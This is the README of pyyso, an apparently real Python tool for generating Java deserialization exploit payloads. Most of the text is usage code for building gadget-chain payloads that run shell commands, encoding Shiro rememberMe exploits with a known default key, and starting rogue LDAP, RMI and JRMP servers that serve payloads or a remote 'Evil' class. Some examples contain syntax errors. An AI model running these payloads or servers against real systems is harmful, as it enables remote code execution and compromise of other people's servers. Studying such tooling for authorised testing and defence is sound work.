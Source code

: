 # pyyso: powerful java serialized toolkit

## What is it?
**pyyso** is a Python package that provides fast and flexible ways to generate java serialized poc.
It aims to be the fundamental high-level building block for doing vulnerability **check and research** in Python.
Additionally, it has a goal of becoming the most convenient and reliable toolkit implemented in Python for Java researchers

## Main Features
Here are just a few of the things that pyyso does well:

- Easy generating of java serialized poc
- Powerful, flexible functionality to start a LDAP/RMI/JRMP server to host java serialized pocs
- Communicating and collaborating with other Python packages 
- Won't be exploited back in RMI like java client

pyyso has implemented
- URLDNS Gadget
- CommonsCollections1-7 Gadgets
- JDK7u21 Gadget
- JDK8u21 Gadget
- CommonsBeanutils1 1.8.3 no cc
- CommonsBeanutils1 1.9.2
- shiro-550 rememberMe deserialized
- java class embed with command
- LDAP server hosting java serialized pocs
- LDAP server hosting java remote reference factory
- RMI server
- high JDK version beanfactory bypass
- JRMP server
- JRMPClient Gadget

## Where to get it
The source code is currently host on GitHub at:
https://github.com/cokeBeer/pyyso

## Installation from sources
```sh
pip install pyyso
```

## How to use
### basic usage

First import pyyso

```python
import pyyso
```
To generate a java serialized zed poc use:
```python
pyyso.urldns("https://x.dnslog.com") #return java serialzed data of URLDNS in bytes
pyyso.cc1("touch /tmp/1") #return java serialzed data of CommonsColletions1 in bytes
pyyso.cc2("touch /tmp/1") #return java serialzed data of CommonsColletions2 in bytes
pyyso.jdk7u21("touch /tmp/1") #return java serialzed data of JDK7u21 in bytes
pyyso.jdk8u20("touch /tmp/1") #return java serialzed data of JDK8u20 in bytes
pyyso.jrmpclient("127.0.0.1",80) #return java serialzed data of jrmpclient in bytes
pyyso.cb1v183("touch /tmp/1") #return java serialzed data of CommonsBeanutils1 1.8.3 no cc in bytes
```
To generate a java class embed with command use:
```python
pyyso.clazz("touch /tmp/1") #return java class embed with command in bytes
```
### shiro 

To encode a shiro poc use:

```python
serobj=pyyso.cb1v183("touch /tmp/1")
pyyso.shiroEncode(serobj=serobj,key=b'kPH+bIxk5D2deZiIxcaaaA==')
```
### LDAP

To start a LDAP server hosting java serialized pocs:

```python
serobj=pyyso.cc1("touch /tmp/1")
server=pyyso.LdapSerialized(serobj=serobj, ip="0.0.0.0", port=1389)
server.run()
```
This will start a LDAP server listening `0.0.0.0:1389` 
You can change the hosted java serialized data by:

```python
server.serobj=pyyso.cc1("rm /tmp/2")
```
To start a LDAP server hosting java remote reference factory:
```python
server=pyyso.LdapRemoteRef(javaCodeBase="http://127.0.0.1:8088/", javaFactory="Evil", javaClassName="java.lang.String", ip="0.0.0.0", port=1389):
server.run()
```
This will start a LDAP server listening `0.0.0.0:1389 ` 
and will return a remote reference point to `http://127.0.0.1:8088/Evil.class`

### JRMP

To start a JRMPListener

```python
serobj=pyyso.cc1("open /tmp",jrmp=True) #note that there is 'jrmp=True'!
server=pyyso.JRMPListener(serobj=,ip="0.0.0.0", port=5151)
server.run()
```

This will start a JRMPListener listening `0.0.0.0:5151`

By deserializing a jrmpclient Gadget in victim's server, the victim's server will connect back to JRMPListener.

the  jrmpclient Gadget should be made by:

```python
serobj=pyyso.jrmpclient(hostname="127.0.0.1", port=5151)
```

which the hostname  is corresponding to where JRMPListener is hosting on

### RMI and bypass

To get a bypass poc, use:

```python
serobj=pyyso.beanfactory("open /tmp", rmi=True)
```

To start a RMI server and host bypass poc, use:

```python
serobj=pyyso.beanfactory("open /",rmi=True) ##note that there is 'rmi=True'!
server=pyyso.RMIServer(serobj=serobj,ip="0.0.0.0", port=1099, refip="0.0.0.0", refport=42155)
server.run()
```

a registry will listen `0.0.0.0:1099`  and a poc provider server will listen `0.0.0.0:42155`

## Support Options

For some reasons, part Gadgets support  JRMP or RMI now，which can be enabled by `rmi=True` or `jrmp=True`

| Gadgets     | Basic | jrmp option | rmi option |
| ----------- | ----- | ----------- | ---------- |
| CC1-CC7     | ✅     | ✅           | ❌          |
| CB1v192     | ✅     | ✅           | ❌          |
| CB1v183     | ✅     | ✅           | ❌          |
| JDK7u21     | ✅     | ✅           | ❌          |
| beanfactory | ❌     | ❌           | ✅          |
| others      | ✅     | ❌           | ❌          |

## License

[MIT](LICENSE)

## Inspired by
https://github.com/frohoff/ysoserial  
https://github.com/mbechler/marshalsec
